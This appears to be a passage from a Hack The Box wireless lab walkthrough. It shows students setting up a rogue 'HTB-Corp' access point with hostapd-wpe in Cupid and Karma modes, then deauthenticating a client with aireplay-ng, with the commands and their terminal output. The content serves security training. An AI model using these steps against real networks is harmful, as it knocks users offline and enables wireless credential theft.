Next, students will copy the `hostapd-wpe.conf` to their current working directory from `/etc/hostapd-wpe`:

Code: shell

```shell
cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
```

```
root@HTB-Corp:/home/wifi# cp /etc/hostapd-wpe/hostapd-wpe.conf hostapd-wpe.conf
```

They will adjust the `interface` value from `wlan0` to `wlan1` and the `ssid` from `hostapd-wpe` to `HTB-Corp` using `sed` in the `hostapd-wpe.conf` file:

Code: shell

```shell
sed -i "s/wlan0/wlan1/g" hostapd-wpe.conf 
sed -i "s/ssid=hostapd-wpe/ssid=HTB-Corp/g" hostapd-wpe.conf
```

```
root@HTB-Corp:/home/wifi# sed -i "s/wlan0/wlan1/g" hostapd-wpe.conf
root@HTB-Corp:/home/wifi# sed -i "s/ssid=hostapd-wpe/ssid=HTB-Corp/g" hostapd-wpe.conf
```

Subsequently, students will use `hostapd-wpe` to create a rogue network, enabling Cupid mode (`-c`) and Karma mode (`-k`) while specifying the `hostapd-wpe.conf` configuration file:

Code: shell

```shell
sudo hostapd-wpe -c -k hostapd-wpe.conf
```

```
root@HTB-Corp:/home/wifi# sudo hostapd-wpe -c -k hostapd-wpe.conf

rfkill: Cannot open RFKILL control device
random: Only 16/20 bytes of strong random data available
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```

Students will open a new terminal, switch to the `root` user, and will perform de-authentication using `aireplay-ng` against the previously gathered MAC address of the client connected to the `HTB-Corp` network and the MAC address of the network itself:

Code: shell

```shell
sudo -s
sudo aireplay-ng -0 10 -c AA:30:C2:FB:98:8B -a 54:8C:A0:E8:DF:B1 wlan0mon
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# sudo aireplay-ng -0 10 -c AA:30:C2:FB:98:8B -a 54:8C:A0:E8:DF:B1 wlan0mon

12:30:14  Waiting for beacon frame (BSSID: 54:8C:A0:E8:DF:B1) on channel 1
12:30:14  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:15  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:15  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:16  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:16  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:17  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:17  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
12:30:18  Sending 64 directed DeAuth (code 7). STMAC: [AA:30:C2:FB:98:8B] [ 0| 0 ACKs]
```
